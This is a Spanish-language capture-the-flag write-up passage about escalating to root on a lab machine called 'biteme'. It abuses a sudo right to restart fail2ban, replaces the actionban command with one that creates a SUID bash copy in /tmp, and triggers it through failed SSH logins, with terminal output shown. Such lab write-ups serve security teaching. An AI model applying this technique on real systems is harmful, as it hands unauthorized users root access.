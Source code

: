     User fred may run the following commands on biteme:
        (root) NOPASSWD: /bin/systemctl restart fail2ban


-Como vemos tenemos permisos elevados para reiniciar el servicio fail2ban

    Que es Fail2ban es una aplicación escrita en Python para la prevención de intrusos en un sistema, que actúa 
    penalizando o bloqueando las conexiones remotas que intentan accesos por fuerza bruta. Se distribuye bajo 
    licencia GNU y típicamente funciona en sistemas POSIX que tengan interfaz con un sistema de control de paquetes
    o un firewall local (como iptables o TCP Wrapper)

-Elevamos privilegios root mediante el reinicio del servicio.

INFO Elevacion de privilegios mediante fail2ban --> https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7

  1)Editamos el apartado actionban del fichero fred@biteme:/etc/fail2ban/action.d/iptables-multiport.conf 

  Este apartado lo que hace es ejecutar el comando que le indiquemos a actionban cuando una ip es baneada, con los privilegios del usuario que ejecuta el servicio en este caso root.

    # Option:  actionban
    # Notes.:  command executed when banning an IP. Take care that the
    #          command is executed with Fail2Ban user rights.
    # Tags:    See jail.conf(5) man page
    # Values:  CMD
    #
    #actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
    actionban = cp /bin/bash /tmp/esevka && chmod 4777 /tmp/esevka     ----> copiamos una bash a /tmp/esevka y le activamos el SUID y le damos maximos permisos.

  2)Reiniciamos el servicio para que nuestros cambios se guarden.
  
    fred@biteme:~$ sudo /bin/systemctl restart fail2ban

  3)Para ejecutar nuestro codigo lo que tenemos que hacer es lo siguiente:
  
    - Mantener nuestra sesion ssh abierta 
    
    - Desde otra ventana de consola intentar conectar varias veces  por ssh introduciendo mal la pass.
      Tras varios intentos nos banearan la ip, ejecutando el codigo que hemos introducido en actionban.

  2)Como vemos tras ser baneado vemos que nos crea nuestra bash con el SUID activado.

    fred@biteme:~$ ls -la /tmp
    total 1128
    drwxrwxrwt 10 root root    4096 Sep 12 11:17 .
    drwxr-xr-x 24 root root    4096 Mar  4  2022 ..
    -rwsrwxrwx  1 root root 1113504 Sep 12 11:17 esevka
